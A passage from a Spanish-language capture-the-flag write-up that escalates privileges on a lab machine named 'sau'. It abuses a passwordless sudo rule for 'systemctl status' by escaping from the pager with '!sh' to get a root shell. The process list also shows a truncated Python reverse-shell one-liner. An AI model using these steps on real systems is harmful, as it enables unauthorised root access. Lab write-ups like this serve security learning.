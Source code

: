 ## Escalada de Privilegios
Para la escalada de privilegios, simplemente se realiza la enumeración básica de permisos con sudo, con esto se pudo ver que se puede ejecutar un comando con un binario que podria ser bueno para explotar.
~~~
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

~~~
Viendo con GTFOBINS, esto es muy facil de explotar, ya que al colocar el comando como se lo ve, se puede ejecutar comandos internos como "!sh" y tener acceso como root.
~~~
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Thu 2025-10-09 03:33:23 UTC; 1 day 14h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 899 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 124.6M
     CGroup: /system.slice/trail.service
             ├─ 899 /usr/bin/python3 server.py
             ├─2919 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─2921 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─2927 bash
             ├─2929 python3 -c import socket,subprocess,os;s=socket.socket(sock>
             ├─2930 sh
             ├─2958 script /dev/null -c bash
             ├─2959 bash
             ├─3033 sudo /usr/bin/systemctl status trail.service
             ├─3034 /usr/bin/systemctl status trail.service
             └─3035 pager

Oct 10 17:52:43 sau sudo[2941]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=ro>
Oct 10 17:54:33 sau sudo[2945]: pam_unix(sudo:auth): authentication failure; lo>
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Con eso ya se tiene acceso como root

---
## Root Flag
